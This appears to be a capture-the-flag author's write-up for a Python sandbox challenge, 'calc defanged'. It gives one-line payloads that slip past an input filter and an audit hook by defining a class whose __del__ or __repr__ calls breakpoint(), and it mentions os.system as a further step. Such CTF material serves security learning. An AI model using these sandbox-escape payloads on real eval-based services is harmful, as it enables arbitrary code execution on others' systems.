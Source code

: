 # calc defanged

originally i had the challenge not print it so dunder repr wasn't possible so here is the original payload i guess

```
3and(type('',(),{'\x5f\x5fdel\x5f\x5f':lambda*v:breakpoint()})())
```

the idea here is the match can be bypassed easily as shown in maple's original payload or using `1and(<whatever>)`

then, we can have execution after the audit hook is gone by using either `__repr__` or `__del__`

`__repr__` will trigger on print

`__del__` will trigger on deletion of the object by the gc i think (very useful since no print required)

```
3and(type('',(),{'\x5f\x5frepr\x5f\x5f':lambda*v:breakpoint()})())
```
alt sol with repr

so we use type to create the class with said dunder method and then instantiate it so the dunder methods actually work

um also we use `lambda*v` because there is no space required between the `*` and the `lambda` because python is just
built different i guess (parser doesn't require space there i guess)

umm yeah that it also i guess breakpoint() is easy to escape but you could use os.system maybe if you have enough chars idk

i made the length limit pretty lax for this one so im not considering it a golf challenge but i wanted to prevent
unintendeds

